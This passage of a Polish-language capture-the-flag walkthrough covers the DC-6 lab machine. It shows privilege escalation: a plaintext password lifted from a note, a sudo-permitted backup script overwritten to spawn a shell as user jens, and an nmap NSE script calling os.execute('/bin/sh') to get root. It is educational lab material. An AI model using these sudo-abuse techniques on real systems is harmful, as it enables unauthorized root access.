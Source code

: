 ```bash
- Buy new laptop for Sarah's replacement
www-data@dc-6:/home/mark/stuff$
```
W notatce jest zapisane hasło **graham**a **GSo7isUM1D4**.
{: .text-justify}
```bash
# su graham
Password: GSo7isUM1D4
```
```bash
# graham@dc-6:/home/mark/stuff$ sudo -l
# sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
```
Widzimy, że **graham** może uruchomić komendę **/home/jens/backups.sh** z konta **jens**. Wyjdźmy z **Metasploit**a i się zalogujmy przez **SSH**, żeby można było włączyć edytor **Nano**. Zedytujmy plik **/home/jens/backups.sh**, żeby wyglądał mniej więcej tak:
{: .text-justify}
```bash
# graham@dc-6:~$ nano /home/jens/backups.sh
```
<div class="notice--primary" markdown="1">
/home/jens/backups.sh
<pre>
<p style="background-color:white;">
/home/jens/backups.sh
#!/bin/bash
#tar -czf backups.tar.gz /var/www/html
/bin/bash
</p>
</pre>
</div>
Teraz możemy wejść na konto **jens**:
{: .text-justify}
```bash
# graham@dc-6:~$ sudo -u jens /home/jens/backups.sh
```

### jens
```bash
# jens@dc-6:/home/graham$ id
uid=1004(jens) gid=1004(jens) groups=1004(jens),1005(devs)
```
Zobaczmy co jest w **Sudo**:
{: .text-justify}
```bash
# jens@dc-6:~$ sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
```
Widzimy, że program **Nmap** ma dostęp do **root**a. Żeby wykorzystać **Nmap** aby przejąć te konto,  skorzystajmy ze strony [gtfobins](https://gtfobins.github.io/) i znajdźmy tam informację o **Nmap**ie. Można wykorzystać takie coś jak jest poniżej:
{: .text-justify}
```bash
# jens@dc-6:~$ echo "os.execute('/bin/sh')">/tmp/root.nse
```